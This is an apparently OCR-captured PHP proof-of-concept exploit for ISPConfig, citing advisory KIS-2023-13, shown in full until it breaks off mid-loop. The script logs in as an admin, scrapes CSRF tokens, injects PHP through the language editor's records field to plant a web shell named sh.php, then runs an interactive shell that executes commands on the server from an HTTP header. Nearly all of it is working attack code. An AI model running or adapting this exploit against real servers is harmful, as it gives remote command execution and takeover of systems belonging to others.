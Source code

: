 ```php
    
    [-] Original Advisory:

    https://karmainsecurity.com/KIS-2023-13
*/

set_time_limit(0);
error_reporting(E_ERROR);

if (!extension_loaded("curl")) die("[-] cURL extension required!\n");

if ($argc != 4) die("\nUsage: php $argv[0] <URL> <Username> <Password>\n\n");

list($url, $user, $pass) = [$argv[1], $argv[2], $argv[3]];

print "[+] Logging in with username '{$user}' and password '{$pass}'\n";

@unlink('./cookies.txt');

$ch = curl_init();

curl_setopt($ch, CURLOPT_URL, "{$url}login/");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_COOKIEJAR, './cookies.txt');
curl_setopt($ch, CURLOPT_COOKIEFILE, './cookies.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, "username=".urlencode($user)."&password=".urlencode($pass)."&s_mod=login");

if (preg_match('/Username or Password wrong/i', curl_exec($ch))) die("[-] Login failed!\n");

print "[+] Injecting shell\n";

$__phpcode = base64_encode("<?php print('____'); passthru(base64_decode(\$_SERVER['HTTP_C'])); print('____'); ?>"); 
$injection = "'];file_put_contents('sh.php',base64_decode('{$__phpcode}'));die;#";
$lang_file = str_shuffle("qwertyuioplkjhgfdsazxcvbnm").".lng";

curl_setopt($ch, CURLOPT_URL, "{$url}admin/language_edit.php");
curl_setopt($ch, CURLOPT_POSTFIELDS, "lang=en&module=help&lang_file={$lang_file}");

$res = curl_exec($ch);

if (!preg_match('/_csrf_id" value="([^"]+)"/i', $res, $csrf_id)) die("[-] CSRF ID not found!\n");
if (!preg_match('/_csrf_key" value="([^"]+)"/i', $res, $csrf_key)) die("[-] CSRF key not found!\n");

curl_setopt($ch, CURLOPT_POSTFIELDS, "lang=en&module=help&lang_file={$lang_file}&_csrf_id={$csrf_id[1]}&_csrf_key={$csrf_key[1]}&records[%5C]=".urlencode($injection));

curl_exec($ch);

print "[+] Launching shell\n";

curl_setopt($ch, CURLOPT_URL, "{$url}admin/sh.php");
curl_setopt($ch, CURLOPT_POST, false);

while(1)
{
    print "\nispconfig-shell# ";
    if (($cmd = trim(fgets(STDIN))) == "exit") break;
    curl_setopt($ch, CURLOPT_HTTPHEADER, ["C: ".base64_encode($cmd)]);
```